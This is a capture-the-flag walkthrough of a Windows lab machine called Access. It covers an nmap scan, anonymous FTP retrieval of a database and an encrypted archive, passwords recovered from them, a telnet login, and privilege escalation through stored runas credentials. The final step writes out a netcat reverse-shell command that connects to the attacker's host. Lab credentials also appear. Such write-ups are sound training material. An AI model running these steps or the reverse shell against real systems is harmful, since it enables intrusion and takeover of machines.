- Machine Name: Access
- OS Type: Windows
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Sat Jun 28 16:12:16 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up, received echo-reply ttl 127 (0.26s latency).
Scanned at 2025-06-28 16:12:23 IST for 508s
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  syn-ack ttl 127 Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: -4s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 28 16:20:51 2025 -- 1 IP address (1 host up) scanned in 515.02 seconds
```

## Enumeration

### Port 80/HTTP

i found HTTP port 80 is open in Target machine, so first step is to visit the website using browser



tried running gobuster to find hidden files/directories but no luck here

### Port 21/FTP

found FTP port open let’s check if it allows anonymous login or not

```bash
ftp 10.10.10.98
```



it allows anonymous login, and we found that there’s two folders Backups and Engineer

let’s check what these folders contains



there’s two files backup.mdb and Access Control.zip

let’s download both files, first set transfer mode to binary using `bin` 

```bash
ftp> bin

ftp> get "Access Control.zip"
```



same for the backup.mdb



now let’s try to unzip the zip file

```bash
7z x Access\ Control.zip
```



it is the password  protected, let’s check the MS Access DB file, to open it i used online website - https://www.mdbopener.com/

after uploading the bakcup.mdb file



there’s many tables, i found auth user little bit interesting, click on view to view the table data





we found the engineer user’s credentials - **`engineer:access4u@security`** 

now we can unzip the file using engineer’s password



the zip contains 'Access Control.pst’

> A PST file, or Personal Storage Table, is **a file format used by Microsoft Outlook and other Microsoft programs to store copies of messages, calendar events, and other items locally on a computer**
> 

now to extract the data from pst file i used 

```bash
readpst -r Access\ Control.pst
```

there’s mbox file created inside the “Access Control” folder



and we got the password for security account → 4Cc3ssC0ntr0ller, let’s try login to telnet



and we can get the flag from \useres\Security\Desktop\user.txt

to get stable and better shell i tried using the nc.exe but i got the error, the program is blocked by group policy



after getting initial access i tried searching for the interesting file and i found 



now the thing here is we can see it is using the `/savecred` it means the runas stores the credentials in windows credential manager https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/StoredCredentialsRunas.md

we can list the credentials by `cmdkey /list` 



as we’ve already placed nc.exe in security user’s home directory we can run it using runas directly

```bash
runas /user:ACCESS\Administrator /savecred "C:\Users\security\nc.exe 10.10.14.12 443 -e cmd.exe"
```

and on shell listener we’ll get the shell as administrator

